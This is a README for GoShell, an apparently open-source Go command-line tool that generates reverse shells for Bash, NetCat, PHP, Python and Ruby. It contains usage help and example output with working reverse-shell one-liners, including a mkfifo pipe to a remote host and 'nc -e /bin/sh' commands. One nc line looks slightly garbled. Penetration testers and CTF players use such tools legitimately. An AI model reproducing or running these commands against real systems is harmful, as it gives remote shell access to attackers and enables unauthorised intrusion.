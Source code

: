 # GoShell
[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com) [![forthebadge](https://forthebadge.com/images/badges/you-didnt-ask-for-this.svg)](https://forthebadge.com)

Generate reverse shells in command line.

## Usage
```
USAGE:
   goshell [global options] command [command options] [arguments...]

COMMANDS:
   bash     Generate a Bash reverse shell
   nc       Generate NetCat reverse shells
   php      Generate a PHP reverse shell
   py       Generate a Python reverse shell
   ruby     Generate a Ruby reverse shell
   help, h  Shows a list of commands or help for one command

COMMAND OPTIONS:
   --ip value    (default: "127.0.0.1")
   --port value  (default: "8080")
   --help, -h    show help (default: false)

GLOBAL OPTIONS:
   --help, -h  show help (default: false)
```

## Example
```
> ./goshell bash -ip 1.2.3.4 -port 1337                                                                                                            ~/dev/go/goshell
GoShell - (c)2020 - ezekiel
Note that those shells may not work on your target !

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.2.3.4 1337 >/tmp/f

> ./goshell nc                                                                                                                                 ~/dev/go/goshell
GoShell - (c)2020 - ezekiel
Note that those shells may not work on your target !

#1: nc -e /bin/sh 127.0.0.1 8080
#2: /bin/sh | nc 127.0.0.1 8080
#3: rm -f /tmp/p; mknod /tmp/p p && nc 127.0.0.1 8080 0/tmp/p
```